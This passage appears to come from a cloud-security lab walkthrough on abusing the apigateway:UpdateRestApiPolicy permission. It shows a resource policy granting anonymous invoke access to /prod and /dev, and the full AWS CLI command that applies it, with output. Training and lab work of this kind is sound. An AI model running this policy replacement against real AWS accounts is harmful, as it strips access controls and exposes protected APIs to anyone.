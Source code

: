 ```
        "CreateDate": "2025-09-04T18:19:30Z"
    }
}

```

We have permissions to enumerate the APIs and redeploy them with any configuration changes. The `apigateway:UpdateRestApiPolicy` permission allows the user to update the resource policy attached to any REST API (`/restapis/*`) in `us-west-2`. Resource policies define who can access the resource and under what conditions, providing granular control for any resource. 

According to documentation for [UpdateRestApi](https://docs.aws.amazon.com/apigateway/latest/api/patch-operations.html#UpdateRestApi-Patch), we can replace the existing API Gateway resource policy

![](bypass-restrictions-in-api-gateway-1.png)

Let's modify the policy by allowing unconditional access to the `/prod`
```
└─$ cat policy.json                         
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": "*",
      "Action": "execute-api:Invoke",
      "Resource": "arn:aws:execute-api:us-west-2:767553057089:u1hp5d8r0b/*/GET/prod"
    },
    {
      "Effect": "Allow",
      "Principal": "*",
      "Action": "execute-api:Invoke",
      "Resource": "arn:aws:execute-api:us-west-2:767553057089:u1hp5d8r0b/*/*/dev"
    }
  ]
}

```

Escape the quotas and run the command to ,odify the policy
```
└─$ aws apigateway update-rest-api --rest-api-id u1hp5d8r0b --patch-operations '[{"op":"replace","path":"/policy","value":"{\"Version\":\"2012-10-17\",\"Statement\":[{\"Effect\":\"Allow\",\"Principal\":\"*\",\"Action\":\"execute-api:Invoke\",\"Resource\":\"arn:aws:execute-api:us-west-2:767553057089:u1hp5d8r0b/*/GET/prod\"},{\"Effect\":\"Allow\",\"Principal\":\"*\",\"Action\":\"execute-api:Invoke\",\"Resource\":\"arn:aws:execute-api:us-west-2:767553057089:u1hp5d8r0b/*/*/dev\"}]}"}]'

{
    "id": "u1hp5d8r0b",
    "name": "APIGatewayDev",
    "description": "API prototype for new service",
    "createdDate": 1757009971,
    "apiKeySource": "HEADER",
    "endpointConfiguration": {
        "types": [
            "EDGE"
        ],
        "ipAddressType": "ipv4"
    },
    "policy": "{\\\"Version\\\":\\\"2012-10-17\\\",\\\"Statement\\\":[{\\\"Effect\\\":\\\"Allow\\\",\\\"Principal\\\":\\\"*\\\",\\\"Action\\\":\\\"execute-api:Invoke\\\",\\\"Resource\\\":\\\"arn:aws:execute-api:us-west-2:767553057089:u1hp5d8r0b\\/*\\/GET\\/prod\\\"},{\\\"Effect\\\":\\\"Allow\\\",\\\"Principal\\\":\\\"*\\\",\\\"Action\\\":\\\"execute-api:Invoke\\\",\\\"Resource\\\":\\\"arn:aws:execute-api:us-west-2:767553057089:u1hp5d8r0b\\/*\\/*\\/dev\\\"}]}",
    "tags": {},
```